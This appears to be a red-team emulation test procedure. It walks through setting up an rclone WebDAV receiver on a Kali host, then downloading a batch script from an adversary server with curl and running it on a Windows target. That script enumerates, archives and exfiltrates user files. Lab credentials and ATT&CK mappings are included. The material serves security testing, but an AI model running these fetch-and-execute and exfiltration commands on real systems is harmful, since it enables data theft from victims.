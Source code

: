 * From your Kali attack host `corsair (223.246.0.70)`, open a new terminal tab
to setup the `rclone` server to receive the exfiltrated files:

    ```cmd
    sudo rclone serve webdav /srv/http --addr 223.246.0.70:8080
    ```

* Ensure the Simple File Server handler is enabled and running

* :arrow_right: From the Windows jumpbox `spitfire (223.246.0.90)`, RDP to
`bts (10.222.25.61)` as `sonicbeats37.fm\yoona` if not already connected

    | Hostname | Username | Password |
    | -------- | -------- | -------- |
    | bts.sonicbeats37.fm | sonicbeats37.fm\yoona | Exposed-Backpack |

* Search for Command Prompt and right-click to Run As Administrator

* Download the batch script from the adversary server using curl

    ```cmd
    curl --output "C:\Windows\Temp\test1.bat" http://m1sfir3d.blog/files/test1.bat
    ```

### :biohazard: Procedures

* Execute the batch script from your Administrative Command Prompt terminal.

    ```cmd
    C:\Windows\Temp\test1.bat http://36.43.97.65
    ```

* :camera: Screenshot the end state of the test and any command/application output (If a block occurred screenshot any alert/prompt).

### :broom: Cleanup

* In the elevated Command Prompt withing the RDP to `bts (10.222.25.61)`,
download the cleanup script using curl.

    ```cmd
    curl --output "C:\Windows\Temp\cleanup_test1.bat" http://m1sfir3d.blog/files/cleanup_test1.bat
    ```

* Execute the cleanup script.

    ```cmd
    C:\Windows\Temp\cleanup_test1.bat
    ```

### :mag: ATT&CK Techniques and Reference Code

:information_source: NOTE: Only the techniques under test are listed in this table

| Red Team Activity | Source Code Link | ATT&CK Technique |
| ----------------- | ---------------- | ---------------- |
| cmd.exe executes test1.bat | - | T1059.003 Command and Scripting Interpreter: Windows Command Shell |
| test1.bat enumerates files in all user Desktop, Documents, and Downloads folders | [enumerate files](../Resources/test1/test1.bat#L15) | T1083 File and Directory Discovery |
| test1.bat compresses files in a zip archive | [archive](../Resources/test1/test1.bat#L23) | T1560.002 Archive Collected Data: Archive via Library |
| test1.bat exfiltrates the archives using rclone | [exfiltrate](../Resources/test1/test1.bat#L55) | T1048.003 Exfiltration Over Alternative Protocol: Exfiltration Over Unencrypted Non-C2 Protocol |
